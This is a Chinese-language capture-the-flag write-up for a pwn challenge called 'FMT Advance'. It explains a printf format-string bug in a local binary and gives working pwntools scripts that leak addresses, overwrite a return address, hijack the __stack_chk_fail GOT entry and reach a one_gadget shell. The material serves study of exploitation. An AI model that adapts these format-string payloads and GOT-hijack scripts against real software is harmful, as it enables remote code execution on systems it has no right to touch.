

# Pwn - FMT Advance

## Solution
確認 binary 開了什麼保護



再來分析一下 `chal.c` 可以找到第 16 行

```c
    printf(buf);
```

這邊有一個 FMT 可以利用。整理一下目前的資訊，目前需要先做的事情是不要讓程式直接 return 結束掉，之後利用 FMT 去做 GOT Hijack 達到 RCE。

為了不要讓程式直接 return 掉，所以我們可以去 partial overwrite main 的 return address，讓這個 return address 指到 `__libc_start_main` 在呼叫 `main` 前的位址。

接下來找一下呼叫 `printf` 前 stack 上面可以用的東西。可以發現在 `rsp + 0x20` 的地方有一個可以用的值，這個值指向的位址和 `main` 的 return address 在的位址很近，大多數時候只差最後一個 byte 不一樣。這邊先假設我們已經知道 `main` `rbp` 的位址，利用這個位址我們可以知道 `main` return address 在的位址在 `rbp + 8`，所以就可以把 `rsp + 0x20` 的最後一 byte overwrite 成 `rbp + 8` 的最後一 byte，接著 FMT 把 `rbp + 8` 最後一 byte 從 `...83`（`main` 的 return address） 改成 `...3f`（`__libc_start_main` 呼叫 `main` 前的位址），這樣就可以再一次執行 `main` 了。目前的程式碼應該者這樣：

```py
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chal', env={'LD_PRELOAD': './libc.so.6'})

gdb.attach(r)
main_rbp_lastbyte = int(input('main rbp > '), 16) & 0xff
payload = b'%63c%10$hhn.%10$p.%21$p.%25$p'.ljust(0x20, b',') + bytes([main_rbp_lastbyte + 8])
r.send(payload)
r.recvuntil(b'.')

main_rbp = int(r.recvuntil(b'.')[:-1], 16) - 8
info(f'main rbp : {hex(main_rbp)}')
libc = int(r.recvuntil(b'.')[:-1], 16) - 0x24083
info(f'libc : {hex(libc)}')
codebase = int(r.recvuntil(b',')[:-1], 16) - 0x11a9
info(f'codebase : {hex(codebase)}')

r.interactive()
```

其中的 `libc.so.6` 可以用以下的 command 拿到：

```shell
docker create --name tmp-ubuntu ubuntu@sha256:874aca52f79ae5f8258faff03e10ce99ae836f6e7d2df6ecd3da5c1cad3a912b
docker cp tmp-ubuntu:/lib/x86_64-linux-gnu/libc-2.31.so ./libc.so.6
docker rm tmp-ubuntu
```

解釋一下程式要怎麼跑，主要就是執行到以下的時候

```py
gdb.attach(r)
```

會開啟 `gdb` 的視窗，利用 `gdb` 找到 `main` `rbp` 的位址，把這個位址回傳給 python，接著就會進入下一次的 `main`，順便還利用 FMT leak 了 `rbp`、`libc` 和 `codebase`。

得到 `codebase` 和 `libc` 後，就可以嘗試 GOT Hijack 了。稍微找一下可以找到

```py
# 0xe3afe execve("/bin/sh", r15, r12)
# constraints:
#   [r15] == NULL || r15 == NULL || r15 is a valid argv
#   [r12] == NULL || r12 == NULL || r12 is a valid envp
```

這個 one gadget，而且 `__stack_chk_fail` 呼叫的時候 `r15` 是 0，但因為 `r12` 不是 0，所以寫一個 ROP gadget 到 `__stack_chk_fail` 的 GOT，然後在 stack 上寫一個小的 ROP，最後改 canary 的值就可以 RCE 了。目前的 script 長這樣：

```py
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chal', env={'LD_PRELOAD': './libc.so.6'})

gdb.attach(r)
main_rbp_lastbyte = int(input('main rbp > '), 16) & 0xff
payload = b'%63c%10$hhn.%10$p.%21$p.%25$p'.ljust(0x20, b',') + bytes([main_rbp_lastbyte + 8])
r.send(payload)
r.recvuntil(b'.')

main_rbp = int(r.recvuntil(b'.')[:-1], 16) - 8
info(f'main rbp : {hex(main_rbp)}')
libc = int(r.recvuntil(b'.')[:-1], 16) - 0x24083
info(f'libc : {hex(libc)}')
codebase = int(r.recvuntil(b',')[:-1], 16) - 0x11a9
info(f'codebase : {hex(codebase)}')

# 0xe3afe execve("/bin/sh", r15, r12)
# constraints:
#   [r15] == NULL || r15 == NULL || r15 is a valid argv
#   [r12] == NULL || r12 == NULL || r12 is a valid envp
one_gadget = libc + 0xe3afe
stack_chk_fail = codebase + 0x000000000004018
pop_rbx_rbp_r12 = libc + 0x000000000002f830

for i in range(6):
    byte = ((pop_rbx_rbp_r12 >> i * 8) - 63) & 0xff
    payload = f'%63c%10$hhn%{byte}c%9$hhn'.encode().ljust(0x18, b'.') + flat(stack_chk_fail + i, main_rbp + 8)
    r.send(payload)
    r.recvuntil(payload[0x18: 0x19])

payload = b'a' + b'%10$hhn' + flat(0, one_gadget, 0, main_rbp - 8)
r.send(payload)

r.interactive()
```

到這裡我們已經可以 RCE 了，但這是 base on 我們已經知道 `main` `rbp` 的位址，正確來講師我們已經知道 `main` `rbp` 的最後一 byte，可是實際上我們不會知道。這邊可以先假設一個 `main` `rbp` 最後一 byte，然後去嘗試以上的 script 可不可以動，如果可以動那就表示猜對了，不行的話就把 tube 關掉然後重新開一個。因為 `main` `rbp` 最後一 byte 一定和 0x10 對齊，所以基本上一次就猜對的機率差不多是 1/16，多猜幾遍基本上就可以 RCE 了。

最後的 script 在 [這裡](sol/solve.py)

